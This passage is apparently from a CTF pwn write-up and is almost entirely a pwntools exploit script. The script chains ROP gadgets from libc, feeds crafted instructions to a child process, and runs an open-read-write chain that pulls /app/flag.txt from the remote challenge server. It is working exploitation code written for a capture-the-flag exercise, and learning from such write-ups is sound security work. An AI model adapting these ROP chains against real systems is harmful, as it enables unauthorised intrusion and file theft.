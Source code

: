 ```python
payload += p64(pop_rdi) + p64(0) + p64(pop_rsi) + p64(fake_stack-0x1000) + p64(pop_rdx_r12) + p64(0x1000)*2 + p64(libc_base+libc.sym["read"])
# write(5, fake_stack, 0x1000) to child
payload += p64(pop_rdi) + p64(5) + p64(pop_rsi) + p64(fake_stack-0x1000) + p64(pop_rdx_r12) + p64(0x1000)*2 + p64(libc_base+libc.sym["write"])
# parent read orw payload
payload += p64(pop_rdi) + p64(0) + p64(pop_rsi) + p64(fake_stack-0x1000) + p64(pop_rdx_r12) + p64(0x1000)*2 + p64(libc_base+libc.sym["read"])
# write(5, fake_stack, 0x1000) to child
payload += p64(pop_rdi) + p64(5) + p64(pop_rsi) + p64(fake_stack-0x1000) + p64(pop_rdx_r12) + p64(0x1000)*2 + p64(libc_base+libc.sym["write"])
# read flag from child
payload += p64(pop_rdi) + p64(6) + p64(pop_rsi) + p64(fake_stack-0x1000) + p64(pop_rdx_r12) + p64(0x30)*2 + p64(libc_base+libc.sym["read"])
# write flag to stdout
payload += p64(pop_rdi) + p64(1) + p64(pop_rsi) + p64(fake_stack-0x1000) + p64(pop_rdx_r12) + p64(0x30)*2 + p64(libc_base+libc.sym["write"])
sleep(0.5)
p.sendline(payload)

sleep(0.5)
p.send(p64(0x1000)) # size

# payload read(4, cs, 0x30)
child_insns = "a"*0x4bc
child_insns += Mov_r_i(8, 0)                    # rax = 0
child_insns += Mov_r_i(9, 4)                    # rdi = 0
child_insns += Mov_r_i(10, fake_stack)          # rsi = fake_stack
child_insns += Mov_r_i(11, 0x1000)              # rdx = 0x1000
child_insns += Jmp_i(0x2353)                    # syscall

sleep(0.5)
p.sendline(child_insns) 

orw = p64(pop_rdi+1)*0x20
orw += p64(pop_rdi) + p64(fake_stack+8*(0x20+18)) + p64(pop_rsi) + p64(0) + p64(libc_base+libc.sym["open"])
orw += p64(pop_rdi) + p64(0) + p64(pop_rsi) + p64(fake_stack-0x1000) + p64(pop_rdx_r12) + p64(0x30)*2 + p64(libc_base+libc.sym["read"])
orw += p64(pop_rdi) + p64(7) + p64(pop_rsi) + p64(fake_stack-0x1000) + p64(libc_base+libc.sym["write"])
orw += "/app/flag.txt\x00"
p.sendline(orw) 

p.interactive()

```

远程没关，打一下：

![image-20220214182435094](https://raw.githubusercontent.com/Niebelungen-D/Imgbed-blog/main/img/20220219230011.png)
